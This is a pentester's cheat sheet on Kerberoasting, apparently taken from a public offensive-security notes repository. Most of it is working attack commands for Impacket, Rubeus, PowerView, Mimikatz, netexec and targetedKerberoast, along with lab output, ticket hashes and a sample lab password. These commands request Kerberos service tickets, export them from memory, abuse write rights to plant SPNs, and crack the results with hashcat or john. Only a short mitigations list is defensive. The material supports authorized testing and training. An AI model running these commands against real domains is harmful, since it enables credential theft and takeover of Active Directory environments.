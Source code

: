 # Roasting - Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.

## Linux

### [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite

* **List All SPN Accounts**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <DC IP> <domain>/<user>
  ```
* **Request all TGS Tickets** 
  ```bash
  $ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```
* **Request a Single TGS ticket**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user>
  ```
* **Save the ticket to an output file**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user> -outputfile <filename>
  ```

 ### [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

  ```bash
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute),
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ```
## Windows

### Manual Method
* **Using setspn.exe to enumerate SPN's**  
  ```powershell
  setspn.exe -Q */*
  ```
* **Targeting a single user**  
  ```powershell
  Add-Type -AssemblyName System.IdentityModel
  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <SPN Name>
  ```
* **Retrieving All Tickets Using setspn.exe**  
  Caution: This will pull all computer accounts as well, so use with caution
  ```powershell
  setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % {New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
  ```
* **Extracting the tickets from Memory w/ Mimikatz**  
  ```powershell
  mimikatz # base64 /out:true # If you do not specify this, it will dump the tickets into .kirbi files
  isBase64InterceptInput  is false
  isBase64InterceptOutput is true

  mimikatz # kerberos::list /export
  ```
* **Prepare the Base64 Blob for cracking**
  ```powershell  
  echo "<base64blob>" | tr-d \\n
  ```
* **Placing the Output into a .kirbi file**  
  ```bash
  cat <encoded file> | base64 -d > <file>.kirbi
  ```
* **Ticket Extraction with kirbi2john.py**  
  ```bash
  kirbi2john.py sqldev.kirbi
  ```
* **Modify the crack_file for Hashcat**  
  ```bash
  sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
  ```
* **Crack with Hashcat**  
  ```bash
  hashcat -a 0 -m 13100 <hashfile> <wordlist>
  ```

### Automated Methods

* **netexec Module**  

  ```powershell
  $ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```

* **[Rubeus](https://github.com/GhostPack/Rubeus)**  

  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  #All accounts with the ldap filter set to "1"
  .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #/nowrap keeps line breaks out of crackable hash

  
  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

* **[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**  

  ```powershell
  # ?
  Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
  
  #List all SPN's
  Get-Domainuser * -spn | select samaccountname

  #Target a specific user
  Get-DomainUser -Identity <username> | Get-DomainSPNTicket -Format Hashcat

  #Export all tickets to a .csv
  Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
  ```

* **[bifrost](https://github.com/its-a-feature/bifrost) on macOS machine**  

  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

* **[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)**  

  ```powershell
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ```

## Cracking w/ Hashcat
* **Crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`)**  

| Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```

**Mitigations**:

* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

## References

* [Hack The Box Academy](https://academy.hackthebox.com/module/143/section/1456)
* [Abusing Kerberos: Kerberoasting - Haboob Team](https://www.exploit-db.com/docs/english/45051-abusing-kerberos---kerberoasting.pdf)
* [Invoke-Kerberoast - Powersploit Read the docs](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
* [Kerberoasting - Part 1 - Mubix “Rob” Fuller](https://room362.com/post/2016/kerberoast-pt1/)
* [Post-OSCP Series Part 2 - Kerberoasting - 16 APRIL 2019 - Jon Hickman](https://0metasecurity.com/post-oscp-part-2/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)

# Original Notes from [SwisskyRepo](https://github.com/swisskyrepo/InternalAllTheThings)
